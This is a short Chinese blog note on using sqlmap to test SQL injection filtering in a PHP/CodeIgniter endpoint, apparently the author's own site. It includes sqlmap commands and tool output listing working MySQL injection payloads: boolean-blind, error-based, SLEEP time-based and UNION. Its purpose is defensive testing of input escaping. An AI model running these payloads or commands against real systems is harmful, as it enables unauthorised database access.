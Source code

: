 ```yaml
---
title: sqlmap使用心得
date: 2017-01-13 18:44:31
categories: MySQL
---
```



## 缘由
今天想测试下ci框架的sql注入过滤效果，找到了sqlmap来进行接口sql注入效果。不用自己重复造轮子来模拟各种sql注入情况。
主要测试内容：
- 直接用`select * from table where id={$id}`看sqlmap工具效果
- 使用`real_escape_string`过滤测试效果
- 使用php的`addslashes`方法测试效果

## 下载
> http://sqlmap.org/

---

sqlmp参数说明，直接`sqlmap.py -h`看介绍。
- --dbms 指定数据库
- --level=LEVEL


## 模拟有sql注入的情况

测试接口：
> ./sqlmap.py -u "http://wufazuce.com/index.php?time=1"

```
sqlmap identified the following injection point(s) with a total of 188 HTTP(s) requests:
---
Parameter: time (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)
    Payload: time=1 OR NOT 5138=5138#

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: time=1 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x71626a6271,(SELECT (ELT(3637=3637,1))),0x7178787a71,0x78))s), 8446744073709551610, 8446744073709551610)))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: time=1 OR SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: time=1 UNION ALL SELECT CONCAT(0x71626a6271,0x457a6c736b4d50776b6b64726471774444456b72447559596f6f684c6b68434b62736d4f7154656b,0x7178787a71),NULL,NULL,NULL-- DBwe
---
web application technology: PHP 5.6.22
back-end DBMS: MySQL >= 5.5
```

## 使用`real_escape_string`过滤测试效果
php中`real_escape_string`可以过滤防范。
> /sqlmap.py -u "http://wufazuce.com/finc/perform/trend?time=1"  --level=5 --dbms=mysql

```
[18:01:18] [INFO] testing connection to the target URL
[18:01:18] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[18:01:18] [INFO] testing if the target URL is stable
[18:01:19] [INFO] target URL is stable
[18:01:19] [INFO] testing if GET parameter 'time' is dynamic
[18:01:19] [INFO] confirming that GET parameter 'time' is dynamic
[18:01:19] [INFO] GET parameter 'time' is dynamic
[18:01:19] [WARNING] reflective value(s) found and filtering out
[18:01:19] [INFO] heuristic (basic) test shows that GET parameter 'time' might be injectable
[18:01:19] [INFO] testing for SQL injection on GET parameter 'time'
[18:01:19] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:01:20] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[18:01:20] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:01:20] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[18:01:20] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[18:01:20] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[18:01:21] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[18:01:21] [INFO] testing 'MySQL inline queries'
[18:01:21] [INFO] testing 'PostgreSQL inline queries'
[18:01:21] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[18:01:21] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[18:01:21] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[18:01:21] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[18:01:21] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[18:01:22] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[18:01:22] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[18:01:22] [INFO] testing 'Oracle AND time-based blind'
[18:01:22] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[18:01:22] [WARNING] using unescaped version of the test because of zero knowledge of the back-end DBMS. You can try to explicitly set it with option '--dbms'
[18:01:25] [WARNING] GET parameter 'time' does not seem to be injectable
[18:01:25] [CRITICAL] all tested parameters appear to be not injectable. Try to increase '--level'/'--risk' values to perform more tests. As heuristic test turned out positive you are strongly advised to continue on with the tests. Please, consider usage of tampering scripts as your target might filter the queries. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp'). If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could retry with an option '--tamper' (e.g. '--tamper=space2comment')

```

## 使用php的`addslashes`方法测试效果
`addslashes`方法前后不会自动加单引号`''`

## 感受
工具很强大，自己只用了点皮毛，后面有时间再深入研究。

## 参考资料
- Web安全之SQL注入攻击技巧与防范(http://www.plhwin.com/2014/06/13/web-security-sql/)
- 是否足够安全http://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string
